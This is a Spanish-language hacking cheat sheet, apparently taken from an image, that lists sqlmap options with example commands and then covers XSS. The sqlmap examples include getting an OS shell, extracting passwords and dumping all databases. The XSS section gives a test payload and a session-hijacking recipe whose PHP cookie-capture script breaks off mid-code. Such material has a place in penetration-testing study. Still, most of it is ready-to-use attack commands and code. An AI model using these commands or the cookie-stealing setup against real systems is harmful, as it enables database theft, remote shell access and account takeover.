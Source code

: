 ##### 12. **`--crawl`** 🧭
   - **Uso**: Especifica cuántos niveles de enlace debe rastrear sqlmap para identificar URLs vulnerables.
   - **Ejemplo**:
     ```
     sqlmap -u http://example.com --crawl=3
     ```

##### 13. **`--technique`** 🔍
   - **Uso**: Permite especificar las técnicas de inyección SQL que se deben probar. Puedes elegir entre `B` (boolean-based), `T` (time-based), `U` (UNION query), `S` (stacked queries), etc.
   - **Ejemplo**:
     ```
     sqlmap -u http://example.com/page?id=1 --technique=U
     ```

##### 14. **`--os-shell`** 💻
   - **Uso**: Intenta obtener acceso a un **shell del sistema operativo** de la máquina vulnerable (esto solo es posible si la inyección SQL permite ejecutar comandos del sistema operativo).
   - **Ejemplo**:
     ```
     sqlmap -u http://example.com/page?id=1 --os-shell
     ```

##### 15. **`--passwords`** 🔑
   - **Uso**: Si el sistema tiene autenticación, puedes extraer las contraseñas de los usuarios de la base de datos.
   - **Ejemplo**:
     ```
     sqlmap -u http://example.com/page?id=1 --passwords
     ```

##### 16. **`--dump-all`** 📥
   - **Uso**: Extrae todos los datos de todas las bases de datos, tablas y columnas.
   - **Ejemplo**:
     ```
     sqlmap -u http://example.com/page?id=1 --dump-all
     ```

## 🔎 XSS (Cross-Site Scripting)

### 🔹 Tipos de XSS
- **Reflected** → Se ejecuta una sola vez al cargar la página.
- **Stored** → Se almacena en la base de datos y afecta a todos los usuarios.

### 🔹 Payload básico para prueba 📜
```html
<script>alert("HAS SIDO HACKEADO")</script>
```

### 🔹 Secuestro de sesión (Session Hijacking) 🏴‍☠️
1. **Preparar servidor para recibir cookies**:
   ```bash
   mkdir /tmp/tmpserver && cd /tmp/tmpserver
   ```
2. **Crear `index.php`** para capturar cookies:
   ```php
   <?php
   if (isset($_GET['c'])) {
       $list = explode(";", $_GET['c']);
       foreach ($list as $key => $value) {
           $cookie = urldecode($value);
           $file = fopen("cookies.txt", "a+");
   ```